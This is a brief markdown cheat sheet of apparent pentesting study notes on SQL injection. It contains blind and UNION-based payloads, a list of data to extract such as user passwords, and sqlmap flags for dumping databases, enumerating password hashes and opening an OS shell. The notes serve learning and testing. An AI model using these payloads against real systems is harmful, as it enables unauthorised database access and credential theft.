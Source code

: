 # SQL Injection (SQLi)
---
[Small SQLi Scanner](https://github.com/stamparm/DSSS)
[Check for SQLi online](https://suip.biz/?act=sqlmap)
* One can understand the query structure by fuzzing with ' " / \ and reading the errors
[Small payload](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
## Blind SQLi
* Blind SQLi, when we see a change in output if the DB returns false, or vice-versa
* In SQL there is a function called substr("String", start, len)
* 1' substr((select database()),1,1)) = s --+
* Find the name of the DB by comaring it to letters and see if it returns true or false
* Or do binary seach using < or > like
* 1' AND (ascii(substr((select database()),2,1))) < 115 --+

## UNION Based
* Find the number of columns
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
# and so on until an error occurs or
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
# until the error occurs
```
* Find column containing string
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Here's a small list of thing you'd want to retrieve:
1. *database()*
2. *user()*
3. *@@version*
4. *username*
5. *password*
6. *table_name*
7. *column_name*

## sqlmap

### Options
-u -> Targe URL
--dbms -> provide db (MySQL, PostgreSQL)
--level -> 1-5, level of tests
--risk -> 1-3
-r -> request (taken from Burp)

### Enumeration
--dump and --dump-all -> retrieve DBMS db
--password -> enumerate DBMS users password hashes
--all
--dbs -> list all databases

### OS interation
--os-shell -> interactive OS shell
--os-pwn -> Meterpreter or something

### Additional
--batch -> don't ask for user input, use default
--wizard -> simple interface for beginners

[Cheat sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
[Command list](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

